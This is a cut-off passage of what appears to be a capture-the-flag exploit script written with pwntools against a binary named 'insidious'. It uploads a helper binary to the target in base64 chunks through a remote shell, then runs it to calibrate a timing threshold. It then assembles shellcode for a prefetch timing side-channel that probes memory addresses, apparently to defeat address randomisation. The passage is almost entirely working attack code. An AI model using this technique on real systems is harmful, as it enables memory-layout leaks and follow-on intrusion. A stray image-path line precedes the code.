 ```python
                prog.success(sol.decode())
            p.sendlineafter(b'solution: ', sol)
    else:
        p = process('../insidious')
    return p

def get_threshold():
    global THRESHOLD_PARAM
    p = conn()

    p.sendlineafter(b'retreat from the daunting path ahead? [y/n]', b'n')

    compressed_data = gzip.compress(open('./test','rb').read())
    
    p.recvuntil(b'master the art of navigating supernatural realms\n')
    
    for i in range(0,len(compressed_data),CHUNK_SIZE):
        p.sendline(f'echo {b64e(compressed_data[i:i+CHUNK_SIZE])} | base64 -d >> /tmp/test.gz'.encode())
        
    p.sendline(b'cat /tmp/test.gz | gzip -d > /tmp/test && rm /tmp/test.gz')
    p.sendline(b'chmod +x /tmp/test && /tmp/test')
    
    with log.progress(f'Trying to find the Threshold') as l:
        p.recvuntil(b'prefetch_on_valid_map:')
        valid_map = int(p.recvline().strip())
        p.recvuntil(b'prefetch_on_invalid_map:')
        invalid_map = int(p.recvline().strip())
        THRESHOLD_PARAM = (valid_map+invalid_map)//2
    p.sendline(b'exit')
    p.close()


get_threshold()

shellcode = asm(f'''    
    mov r14,0xffffff
    
    loopStart:
        mov esi,r14d
        shl rsi,0x10
        
        xor ecx,ecx
        xor ebx,ebx
        mov cl,0x10
        
        prefetch_time:
            rdtsc
            mov edi,eax
            lfence
    
            prefetchnta     [rsi]
            prefetcht2      [rsi]
            prefetcht1      [rsi]
            prefetcht0      [rsi]
    
            lfence
            rdtsc
            sub eax,edi
            
            add ebx,eax
            loop prefetch_time
                  
```